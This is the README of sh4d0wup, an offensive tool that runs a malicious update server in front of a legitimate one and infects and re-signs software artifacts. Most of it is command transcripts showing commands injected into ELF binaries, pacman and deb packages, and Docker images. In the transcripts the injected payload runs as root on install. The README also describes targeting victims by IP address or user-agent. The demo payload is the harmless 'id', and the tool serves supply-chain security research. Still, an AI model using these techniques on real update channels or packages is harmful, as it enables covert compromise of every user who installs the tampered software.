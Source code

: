 # sh4d0wup

```
% docker run -it --rm ghcr.io/kpcyrd/sh4d0wup:edge -h
Usage: sh4d0wup [OPTIONS] <COMMAND>

Commands:
  bait         Start a malicious update server
  infect       High level tampering, inject additional commands into a package
  tamper       Low level tampering, patch a package database to add malicious packages, cause updates or influence dependency resolution
  keygen       Generate signing keys with the given parameters
  sign         Use signing keys to generate signatures
  hsm          Interact with hardware signing keys
  build        Compile an attack based on a plot
  check        Check if the plot can still execute correctly against the configured image
  req          Emulate a http request to test routing and selectors
  completions  Generate shell completions
  help         Print this message or the help of the given subcommand(s)

Options:
  -v, --verbose...  Increase logging output (can be used multiple times)
  -q, --quiet...    Reduce logging output (can be used multiple times)
  -h, --help        Print help information
  -V, --version     Print version information
```

## 👻 What are shadow updates?

Have you ever wondered if the update you downloaded is the same one everybody else gets or did you get a different one that was made _just for you_? Shadow updates are updates that officially don't exist but carry valid signatures and would get accepted by clients as genuine. This may happen if the signing key is compromised by hackers or if a release engineer with legitimate access turns grimy.

`sh4d0wup` is a malicious http/https update server that acts as a reverse proxy in front of a legitimate server and can infect + sign various artifact formats. Attacks are configured in `plots` that describe how http request routing works, how artifacts are patched/generated, how they should be signed and with which key. A route can have `selectors` so it matches only if eg. the user-agent matches a pattern or if the client is connecting from a specific ip address. For development and testing, mock signing keys/certificates can be generated and marked as trusted.

## 📦 Compile a plot

Some plots are more complex to run than others, to avoid long startup time due
to downloads and artifact patching, you can build a plot in advance. This also
allows to create signatures in advance.

```
sh4d0wup build ./contrib/plot-hello-world.yaml -o ./plot.tar.zst
```

## 🦝 Run a plot

This spawns a malicious http update server according to the plot. This also
accepts yaml files but they may take longer to start.

```
sh4d0wup bait -B 0.0.0.0:1337 ./plot.tar.zst
```

You can find examples here:

- [`contrib/plot-archlinux.yaml`](contrib/plot-archlinux.yaml)
- [`contrib/plot-debian.yaml`](contrib/plot-debian.yaml)
- [`contrib/plot-rustup.yaml`](contrib/plot-rustup.yaml)
- [`contrib/plot-curl-sh.yaml`](contrib/plot-curl-sh.yaml)

## 🪄 Infect an artifact

- [`sh4d0wup infect elf`](#sh4d0wup-infect-elf)
- [`sh4d0wup infect pacman`](#sh4d0wup-infect-pacman)
- [`sh4d0wup infect deb`](#sh4d0wup-infect-deb)
- [`sh4d0wup infect oci`](#sh4d0wup-infect-oci)

### `sh4d0wup infect elf`

```
% sh4d0wup infect elf /usr/bin/sh4d0wup -c id a.out
[2022-12-19T23:50:52Z INFO  sh4d0wup::infect::elf] Spawning C compiler...
[2022-12-19T23:50:52Z INFO  sh4d0wup::infect::elf] Generating source code...
[2022-12-19T23:50:57Z INFO  sh4d0wup::infect::elf] Waiting for compile to finish...
[2022-12-19T23:51:01Z INFO  sh4d0wup::infect::elf] Successfully generated binary
% ./a.out help
uid=1000(user) gid=1000(user) groups=1000(user),212(rebuilderd),973(docker),998(wheel)
Usage: a.out [OPTIONS] <COMMAND>

Commands:
  bait         Start a malicious update server
  infect       High level tampering, inject additional commands into a package
  tamper       Low level tampering, patch a package database to add malicious packages, cause updates or influence dependency resolution
  keygen       Generate signing keys with the given parameters
  sign         Use signing keys to generate signatures
  hsm          Interact with hardware signing keys
  build        Compile an attack based on a plot
  check        Check if the plot can still execute correctly against the configured image
  completions  Generate shell completions
  help         Print this message or the help of the given subcommand(s)

Options:
  -v, --verbose...  Turn debugging information on
  -h, --help        Print help information
```

### `sh4d0wup infect pacman`

```
% sh4d0wup infect pacman --set 'pkgver=0.2.0-2' /var/cache/pacman/pkg/sh4d0wup-0.2.0-1-x86_64.pkg.tar.zst -c id sh4d0wup-0.2.0-2-x86_64.pkg.tar.zst
[2022-12-09T16:08:11Z INFO  sh4d0wup::infect::pacman] This package has no install hook, adding one from scratch...
% sudo pacman -U sh4d0wup-0.2.0-2-x86_64.pkg.tar.zst
loading packages...
resolving dependencies...
looking for conflicting packages...

Packages (1) sh4d0wup-0.2.0-2

Total Installed Size:  13.36 MiB
Net Upgrade Size:       0.00 MiB

:: Proceed with installation? [Y/n]
(1/1) checking keys in keyring                                         [#######################################] 100%
(1/1) checking package integrity                                       [#######################################] 100%
(1/1) loading package files                                            [#######################################] 100%
(1/1) checking for file conflicts                                      [#######################################] 100%
(1/1) checking available disk space                                    [#######################################] 100%
:: Processing package changes...
(1/1) upgrading sh4d0wup                                               [#######################################] 100%
uid=0(root) gid=0(root) groups=0(root)
:: Running post-transaction hooks...
(1/2) Arming ConditionNeedsUpdate...
(2/2) Notifying arch-audit-gtk
```

### `sh4d0wup infect deb`

```
% sh4d0wup infect deb /var/cache/apt/archives/apt_2.2.4_amd64.deb -c id ./apt_2.2.4-1_amd64.deb --set Version=2.2.4-1
[2022-12-09T16:28:02Z INFO  sh4d0wup::infect::deb] Patching "control.tar.xz"
% sudo apt install ./apt_2.2.4-1_amd64.deb
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Note, selecting 'apt' instead of './apt_2.2.4-1_amd64.deb'
Suggested packages:
  apt-doc aptitude | synaptic | wajig dpkg-dev gnupg | gnupg2 | gnupg1 powermgmt-base
Recommended packages:
  ca-certificates
The following packages will be upgraded:
  apt
1 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 0 B/1491 kB of archives.
After this operation, 0 B of additional disk space will be used.
Get:1 /apt_2.2.4-1_amd64.deb apt amd64 2.2.4-1 [1491 kB]
debconf: delaying package configuration, since apt-utils is not installed
(Reading database ... 6661 files and directories currently installed.)
Preparing to unpack /apt_2.2.4-1_amd64.deb ...
Unpacking apt (2.2.4-1) over (2.2.4) ...
Setting up apt (2.2.4-1) ...
uid=0(root) gid=0(root) groups=0(root)
Processing triggers for libc-bin (2.31-13+deb11u5) ...
```

### `sh4d0wup infect oci`

```
% docker pull alpine:edge
% docker save alpine:edge > alpine-edge.tar
% sh4d0wup infect oci alpine-edge.tar infected.tar -c id -t infected:latest
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Original image is referencing config "121d0da757518198deeb7d1df20aaae549834f8bc77195bbf5be1900c0144cff.json": LayerConfig { config: Some(Config { user: Some(""), exposed_ports: None, env: Some(["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"]), entrypoint: None, cmd: Some(["/bin/sh"]), volumes: None, working_dir: Some(""), labels: None, stop_signal: None }), rootfs: Some(RootFs { type: "layers", diff_ids: ["sha256:2f7048230bc73ff091490aa5764f9c160d1a4efe04935da731a22e8d5fcccfcc"] }), extra: {"container_config": Object {"AttachStderr": Bool(false), "AttachStdin": Bool(false), "AttachStdout": Bool(false), "Cmd": Array [String("/bin/sh"), String("-c"), String("#(nop) "), String("CMD [\"/bin/sh\"]")], "Domainname": String(""), "Entrypoint": Null, "Env": Array [String("PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")], "Hostname": String("457781b778a4"), "Image": String("sha256:28d4c3ce9341a318d475e64365e47a34d5b9ba6c670bed35ce90b2402296ead6"), "Labels": Object {}, "OnBuild": Null, "OpenStdin": Bool(false), "StdinOnce": Bool(false), "Tty": Bool(false), "User": String(""), "Volumes": Null, "WorkingDir": String("")}, "architecture": String("amd64"), "created": String("2022-11-10T20:19:29.043621251Z"), "history": Array [Object {"created": String("2022-11-10T20:19:28.834390785Z"), "created_by": String("/bin/sh -c #(nop) ADD file:51c4407dc777648e8ebc8e124b05feb1807699ade513b6006a9a409f6b0f6f51 in / ")}, Object {"created": String("2022-11-10T20:19:29.043621251Z"), "created_by": String("/bin/sh -c #(nop)  CMD [\"/bin/sh\"]"), "empty_layer": Bool(true)}], "os": String("linux"), "docker_version": String("20.10.12"), "container": String("457781b778a449c9eac455ca1a18300a4041cb2b0d2d3f979460d19d7632ebf7")} }
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Creating new layer in image: "patched"
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Generating filesystem layer for payload: "id"
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Updating tags of image to ["infected:latest"]
[2022-12-12T00:31:17Z INFO  sh4d0wup::infect::oci] Writing modified manifest...
% docker load -i infected.tar
Loaded image: infected:latest
% docker run -it infected echo hello world
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
hello world
```
